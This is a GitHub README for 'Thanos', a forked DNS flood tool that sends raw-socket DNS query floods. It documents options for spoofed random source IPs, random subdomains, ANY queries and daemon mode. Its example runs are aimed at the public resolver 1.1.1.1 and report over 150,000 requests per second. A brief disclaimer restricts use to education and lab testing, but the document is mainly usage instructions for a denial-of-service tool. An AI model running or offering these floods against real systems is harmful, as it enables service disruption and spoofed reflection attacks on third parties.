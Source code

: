 # dns-flood
This is a fork of https://github.com/hawell/dns-flood/blob/master/dnsflood.c 

This is a modified version of DNS-Flood tool codename Thanos. The code should not be used in the wild for DOS but for educational, lab testing and verification purposes only.

Use raw sockets to generate DNS flood.

In contrast to fork version it provides:
 - Support additional query Type ANY



## How to run

Usage:
```bash
./dnsflood <query_name> <destination_ip> [options]  
	Options:  
	-t, --type		query type  
	-s, --source-ip		source ip  
	-p, --dest-port		destination port  
	-P, --src-port		source port  
	-i, --interval		interval (in microseconds) between two packets  
	-n, --number		number of DNS requests to send  
	-d, --duration		run for at most this many seconds   
	-r, --random-src	fake random source IP
	-R, --random-sub	prefix with random subdomain names
	-S, --dnssec		make a dnssec query
	-D, --daemon		run as daemon  
	-h, --help		print this message   
```
Example:
```bash
sudo ./thanos_darwin maxng.net 1.1.1.1 -t ANY -d 1
sent 152648 DNS requests in 1.000000 sec.

sudo ./thanos_darwin maxng.net 1.1.1.1 -t ANY -n 30
sent 30 DNS requests in 0.000000 sec.
```

# How to Use
1. Download C file or clone
2. Compile using clang or gcc (code has been compiled using both clang and gcc for linux and OSX and works fine)
3. Use with care

## Credits for original version

Original DNS-Flood tool found on code.google.com

Use raw sockets to generate DNS flood.

Original Here: https://code.google.com/p/dns-flood/

